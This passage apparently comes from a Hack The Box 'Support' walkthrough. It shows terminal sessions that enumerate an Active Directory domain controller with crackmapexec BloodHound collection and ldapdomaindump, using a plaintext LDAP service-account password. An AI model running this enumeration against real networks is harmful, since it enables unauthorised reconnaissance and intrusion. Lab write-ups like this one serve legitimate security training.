 
```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ sudo neo4j start
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ cme ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --bloodhound -c All -ns 10.129.227.255
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.227.255  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
LDAP        10.129.227.255  389    DC               Resolved collection methods: session, dcom, rdp, trusts, acl, localadmin, container, objectprops, psremote, group
LDAP        10.129.227.255  389    DC               Done in 00M 25S
LDAP        10.129.227.255  389    DC               Compressing output into /home/kali/.cme/logs/DC_10.129.227.255_2023-09-27_123856bloodhound.zip
```

- There are no `asreproastable` and `kerberoastable` accounts

![](/assets/obsidian/9cc7c1845cda121868099268f9afa032.png)


### Discover hidden password via ldapdomaindump

Get a more readable information in HTML

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ ldapdomaindump -o ldap_dump -r support.htb -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ cd ldap_dump

┌──(bravosec㉿fsociety)-[~/htb/Support/ldap_dump]
└─$ ls
domain_computers_by_os.html  domain_computers.html  domain_groups.grep  domain_groups.json  domain_policy.html  domain_trusts.grep  domain_trusts.json          domain_users.grep  domain_users.json
domain_computers.grep        domain_computers.json  domain_groups.html  domain_policy.grep  domain_policy.json  domain_trusts.html  domain_users_by_group.html  domain_users.html

┌──(bravosec㉿fsociety)-[~/htb/Support/ldap_dump]
└─$ python -m http.server 81 -b 127.0.0.1
```
